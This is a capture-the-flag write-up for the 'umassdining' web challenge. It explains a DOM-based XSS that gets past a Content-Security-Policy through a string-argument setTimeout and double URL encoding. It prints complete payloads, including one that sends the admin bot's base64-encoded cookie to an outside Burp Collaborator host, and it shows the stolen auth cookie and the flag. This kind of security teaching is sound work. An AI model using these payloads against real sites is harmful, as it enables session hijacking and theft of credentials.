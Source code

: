 # umassdining

Categories: Web

Description:  
> I heard there are these weirdos who love UMASS dining a little bit too much.
> Can you infilitrate their secret society and get their super secret flag for
> me?

## Takeaways

DOM-based XSS. Finally a use-case for double encoding.

## Solution

In this challenge we are given the source code. As we can see from the source,
we need to reach `/join` to get the flag, but that is only possible if we have
the correct admin `auth` cookie. So, we somehow have to leak it. The app also
has Content-Security-Policy (CSP) enabled, which is set to `"default-src
'self';script-src 'self' 'unsafe-eval'"`. So, it seems that somehow invoking
an `eval` with attacker-controlled data should be our way to go here.

There seems to be an admin bot. The user submits essays at the `/register`
endpoint via POST requests, with the parameters `email` and `essay`. Then, the
bot will visit the URL `/review/essay?email={email}&essay={essay}` which is
only accessible from `127.0.0.1`.

A first attempt to bypass the IP restriction was by using the `x-forwarded-
for` and similar headers, but this didn't work.

The next thing to note is how the user-controlled parameters are handled. The
`/review/essay` will get its contents by populating `essay_checker.html` and
in this template file we notice the expression `{{essay.essay|safe}}`. This
means that this parameter will not be escaped and is assumed to be already
safe. So, the `essay` variable allows us for an XSS attack:

```  
POST /register

email=asd%40foo.com&essay=<script>alert(1)</script>  
```

Results in the  `GET review/[email protected]&essay=<script>alert(1)</script>`
by the admin bot. However, the bot will not get XSSed, because of CSP.
Instead, the following message will be displayed in console: `Content Security
Policy: The page’s settings blocked the loading of a resource at inline
(“script-src”)`. So we have to somehow circumvent CSP.

Looking at the source code, we notice this bizarre javascript

```javascript  
var iloveumass = document.getElementById("debug").getAttribute("data-
iloveumass");  
function say_something(words) {  
   setTimeout(`console.log('${words}')`,500)  
}  
document.addEventListener("DOMContentLoaded", function() {  
   say_something(iloveumass)  
});  
```

So, when the document has been loaded and parsed,
``setTimeout(`console.log('${words}')`,500)`` is invoked, where the
`words=document.getElementById("debug").getAttribute("data-iloveumass");`.
What is *evil* here, is the [setTimeout
function](https://developer.mozilla.org/en-
US/docs/web/api/settimeout#passing_string_literals) with a string parameter.
As the documentation states:

> Passing a string instead of a function to setTimeout() has the same problems
> as using eval().

And here we are passing a string. Also notice that `eval()` is allowed by the
current CSP policy. So, we just have to inject the thing.js script and an HTML
element with id `debug` and attribute `data-iloveumass` which will hold our
XSS payload. The following `essay` value will trigger an `alert(1)` on the
bot:

`

<script src=/static/js/thing.js></script>`

So the request is:

```  
POST /register

email=asd%40foo.com&essay=<p+id%3d"debug"++data-
iloveumass%3d"')%3b+alert(1)%3b+//">

+<script+src%3d/static/js/thing.js></script>  
```

We modify the above payload to instead leak the admin's cookie:

`

<script src=/static/js/thing.js></script>`

We use `window.location` here as because of the CSP, the bot is not allowed to
make requests to other origins. So, for example `![](x)` is not allowed. Also
inline scripts, like `<script>xss</script>` are not allowed. So, the final
request is:

```  
POST /register

email=asd%40foo.com&essay=<p%2bid%253d"debug"%2b%2bdata-
iloveumass%253d"')%253b%2bwindow.location%2b%253d%2b'http%253a//nb20aa7dkwzrirpv5qa71lnleck28r.burpcollaborator.net/cookie%253d'%252bencodeURIComponent(btoa(document.cookie))%253b%2b//">

%2b<script%2bsrc%253d/static/js/thing.js></script>  
```

Notice the double encoding of all the characters. The first encoding is for
the current request that we are making. Then, when the bot will make the
request, it will decode the characters once more. So, after the first
decoding, the bot will do the following request:

```  
GET /review/[email protected]&essay=<p+id%3d"debug"++data-
iloveumass%3d"')%3b+window.location+%3d+'http%3a//nb20aa7dkwzrirpv5qa71lnleck28r.burpcollaborator.net/cookie%3d'%2bencodeURIComponent(btoa(document.cookie))%3b+//">

+<script+src%3d/static/js/thing.js></script>  
```

So, the double encoding ensures that our payload is correctly formatted when
the bot makes the `GET` request. If we had only encoded our payload once, then
the `+` in the string concatenation would have been interpreted as a space
character when the bot would make the request.

Now, checking back to our callback URL, we see the request `GET
/cookie=YXV0aD1WRWd4VXpGVFJEUlRWVkF6VWxNelExSXpWRFJFVFRGT1F6QXdTMGt6VERCTUlR`.
The decoded value is `auth=VEgxUzFTRDRTVVAzUlMzQ1IzVDRETTFOQzAwS0kzTDBMIQ`.
So, we set the cookie in our browser and visit `/join`. Then, we are presented
with the flag:

`UMASS{NUMB3R_0N3_1N_$TUD3NT_D1N1NG_XD86543267!}`  

Original writeup (https://github.com/nikosChalk/ctf-
writeups/tree/master/umass22/umassdining).